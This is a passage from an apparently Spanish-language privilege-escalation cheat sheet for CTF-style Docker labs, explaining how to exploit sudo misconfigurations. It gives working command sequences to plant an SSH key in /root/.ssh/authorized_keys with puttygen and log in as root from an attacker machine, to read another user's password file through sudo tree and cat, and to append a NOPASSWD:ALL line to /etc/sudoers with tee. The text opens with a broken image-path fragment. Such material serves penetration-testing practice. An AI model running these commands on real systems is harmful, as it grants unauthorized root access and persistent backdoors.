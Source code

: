 (ALL) ALL

sudo su y listo somos root, sin escribir contraseña

-------------------------------------------------------------------------------

34.-	/usr/bin/puttygen

Ejecutamos en orden:

34.1 puttygen -t rsa -b 2048 -O private-openssh -o ~/.ssh/id

34.2 puttygen -L ~/.ssh/id >> ~/.ssh/authorized_keys

34.3 sudo puttygen /home/curiosito/.ssh/id -o /root/.ssh/id

34.4 sudo puttygen /home/curiosito/.ssh/id -o /root/.ssh/authorized_keys -O public-openssh


Y en nuestra máquina atacante nos descargamos la clave y nos conectamos como root:

scp curiosito@172.17.0.2:/home/curiosito/.ssh/id .

ssh -i id root@172.17.0.2

-------------------------------------------------------------------------------

35.- 	/usr/bin/tree
	/usr/bin/cat

User juan may run the following commands on edd63d412442:
    (carlos) NOPASSWD: /usr/bin/tree
    (carlos) NOPASSWD: /usr/bin/cat

listar el conternido de /home/carlos

sudo -u carlos /usr/bin/tree /home/carlos 

respuesta: password (ejemplo)

sudo -u carlos /usr/bin/cat /home/carlos/password

respuesta: 123456 (ejemplo)

También se puede ver archivos donde el usuario no tiene acceso de lectura.

-------------------------------------------------------------------------------

36.-	/usr/bin/tee

User carlos may run the following commands on edd63d412442:
    (ALL : NOPASSWD) /usr/bin/tee

siendo el usuario carlos, ejecutamos el siguiente comando:

echo 'carlos ALL=(ALL) NOPASSWD:ALL' | sudo /usr/bin/tee -a /etc/sudoers

luego ejecutamos

sudo -i

y listo somos root !!!

-------------------------------------------------------------------------------
